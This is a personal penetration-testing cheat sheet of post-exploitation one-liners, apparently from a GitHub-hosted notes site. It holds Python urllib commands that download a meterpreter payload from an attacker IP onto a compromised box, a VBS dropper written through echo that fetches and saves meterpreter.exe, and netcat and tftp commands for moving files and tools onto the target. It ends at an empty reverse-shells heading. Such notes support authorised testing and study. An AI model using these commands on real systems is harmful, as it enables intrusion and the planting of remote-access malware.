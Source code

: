 ```yaml
---
description: 'They don''t have to be elegant, they just have to get the job done.'
---
```


# One-Liners and Dirty Scripts

If I use it and it's not here, it's probably over here: [https://github.com/burmat/burmatscripts](https://github.com/burmat/burmatscripts)

## FILE TRANSFERS

### Python HTTP File Download

If you have remote command execution on a box with python - something like this should do the trick:

`python -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/meterpreter', '/tmp/meterpreter');"`

or if it is a Windows box, it's not much different:

`C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');"`

### VBS HTTP File Download

I got stuck with a borked up reverse shell on a Windows system with no file transfer methods and no modern scripting options. I scraped together the following one-liner to dump into my shell to get my payload over by writing a VBS script with echo statements to issue the download:

`echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"`

_\(originally sourced from here:_ [_http://karceh.blogspot.com/2011/06/vbs-download-file-from-internet.html_](http://karceh.blogspot.com/2011/06/vbs-download-file-from-internet.html)_\)_

### Netcat File Transfer

Because if Netcat is on the system, everything becomes easier:

```text
listener#> nc -l -p 4444 > output.file
sender#> nc -w 3 [destination] 4444 < input.file
```

\(and if it's not - go get it: `C:\Users\burmat>tftp -i 10.10.10.10 get nc.exe`\)

## REVERSE SHELLS / SHELLS

